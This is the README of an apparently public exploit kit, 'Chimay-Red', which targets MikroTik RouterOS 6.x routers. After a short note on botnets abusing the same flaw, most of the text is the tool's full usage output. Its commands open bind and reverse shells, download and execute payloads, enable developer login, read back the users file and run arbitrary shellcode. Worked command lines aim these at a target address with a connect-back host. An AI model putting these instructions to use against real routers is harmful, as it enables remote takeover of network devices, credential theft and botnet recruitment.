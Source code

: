 # Chimay-Red
Mikrotik RouterOS 6.x exploit kit. Reverse engineered from the "Vault 7" WikiLeaks publication.

To learn more about the creation and purpose of this software, please visit: [http://blog.seekintoo.com/chimay-red.html](http://blog.seekintoo.com/chimay-red.html)

## Important Note: 

After further consideration by the **Seekintoo** team, it has been decided that additional architecture support will NOT be released exploiting any `RouterOS` supporting architecture either than `x86` and `mips`*.

The reasoning for this, after further research, is that there are currently botnet(s) operating on the internet taking advantage of this exact exploit attacking both x86 and mips* systems, both of which public exploits have been released for. The name of one of these botnets is "hajime". hajime's inception was long ago, but as of late it has been noticed to abuse the chimay-red exploit on `RouterOS 6.x` devices as covered and analyzed extensively (to name a few):

- [https://avlab.pl/en/exploit-chimay-red-vulnerable-device-mikrotik-and-ubiquiti-form-giant-botnet](https://avlab.pl/en/exploit-chimay-red-vulnerable-device-mikrotik-and-ubiquiti-form-giant-botnet)

- [https://www.bleepingcomputer.com/news/security/hajime-botnet-makes-a-comeback-with-massive-scan-for-mikrotik-routers/](https://www.bleepingcomputer.com/news/security/hajime-botnet-makes-a-comeback-with-massive-scan-for-mikrotik-routers/)

- [https://www.corero.com/blog/882-hajime-botnet-scanning-for-vulnerable-mikrotik-routers.html](https://www.corero.com/blog/882-hajime-botnet-scanning-for-vulnerable-mikrotik-routers.html)

- [https://forum.mikrotik.com/viewtopic.php?t=132490](https://forum.mikrotik.com/viewtopic.php?t=132490)

In-addition to the timing of the release of the first (known) public PoC for Chimay-Red by [BigNerd](https://github.com/BigNerd95/Chimay-Red) in contrast to the current state of rampant `RouterOS` harvesting botnets is currently too much to ignore. Therefore **Seekintoo** will **NOT** be responsible for contributing to these criminal enterprises.

Although if public exploits for additional architectures are found posted on source code hosting facilities, if robust enough, they WILL be re-supported here.

Feel free to contact me at: dpidhirney@seekintoo dot com

## Chimay-Red Usage:

```text
usage: chimay_red.py [-h] -t TARGET [-l LHOST] [--shellcommand SHELLCOMMAND]
                     [-d] [--breakpoints BREAKPOINTS] [-a ARCHITECTURE]
                     [--gdbport GDBPORT] [--binary BINARY]
                     [--shellcode SHELLCODE] [--vector VECTOR]
                     [--leakrounds LEAKROUNDS] [-v] [--version]
                     command

positional arguments:
  command               command function to run on target, see below for
                        options

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        target address:port
  -l LHOST, --lhost LHOST
                        specify the connectback* address
  --shellcommand SHELLCOMMAND
                        return interactive shell as main payload (default)
  -d, --debug           enable debugging mode
  --breakpoints BREAKPOINTS
                        list of comma delimited breakpoint addresses. Eg.
                        0x800400,0x800404
  -a ARCHITECTURE, --architecture ARCHITECTURE
                        target architecture (will detect automatically if
                        target in route table range)
  --gdbport GDBPORT     port to use when connecting to remote gdbserver
  --binary BINARY       target binary (www)
  --shellcode SHELLCODE
                        custom (optional) shellcode payload binary filepath
  --vector VECTOR       optional vector type, see below for options
  --leakrounds LEAKROUNDS
                        amount of rounds to leak pointers, higher is better,
                        but takes more time
  -v, --verbose         Verbosity mode
  --version             show program's version number and exit

Commands:
    COMMAND                    FUNCTION
    
    bindshell                    create a bindshell
    connectback                  create a reverse shell
    download_and_exe             connect back and download a file to then execute
    ssl_download_and_exe         connect back and download a file via SSL to then execute
    write_devel                  write "devel-login" file to allow developer account login
    write_devel_read_userfile    in addition to enabling developer logins, read back the users file
    
    custom_shellcode             run arbitrary shellcode from `--shellcode` binfile
    custom_shell_command         run a arbitrary $sh one liner on the target
    
Vectors:
    default: (mikrodb)

    [Generic]
        mikrodb:
            use the accompanying mikrodb database to load offsets 
            based off of detected remote version to build a ROP chain.
    
        build:
            build a ROP chain from scratch given the www binary matching
            the remote version running.
    
    [Experimental]
        leak:
            leak pointers from shared libraries to give better odds of
            finding base offset of uclibc.
            
Examples:

    Running simple shell command:
        ./chimay_red.py -v -t 192.168.56.124:80 \
            --vector=mikrodb     \
            --lhost=192.168.56.1 \
            --shellcommand="ls -la" custom_shell_command

    Getting a reverse shell:
        ./chimay_red.py -v -t 192.168.56.124:80 \
            --vector=mikrodb \
            --lhost=192.168.56.1 connectback
            
    Debugging the target:
        ./chimay_red.py -v -t 192.168.56.124:80 \
            --vector=build       \
            --architecture="x86" \
            --binary=$PWD/storage/www/www-x86-6.38.4.bin \
            --debug        \
            --gdbport=4444 \
            --lhost=192.168.56.1 connectback
    

==================================================
|  _______   _                     ___         __|
| / ___/ /  (_)_ _  ___ ___ ______/ _ \___ ___/ /|
|/ /__/ _ \/ /  ' \/ _ `/ // /___/ , _/ -_) _  / |
|\___/_//_/_/_/_/_/\_,_/\_, /   /_/|_|\__/\_,_/  |
|                      /___/                     |
==================================================
```

## mikrodb Usage:

```text
usage: mikrodb.py [-h] [-v] [--architectures ARCHITECTURES]
                  [--versions VERSIONS]

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose         Verbosity mode
  --architectures ARCHITECTURES
                        architectures to build for. Eg. --architectures="x86"
                        or "x86,mmips"
  --versions VERSIONS   versions to build for. Eg. --versions="6.38.4" or
                        "6.36.4,6.38.4"

Example: 
    ./mikrodb.py --architectures="x86" --versions="6.36.4,6.38.4"

```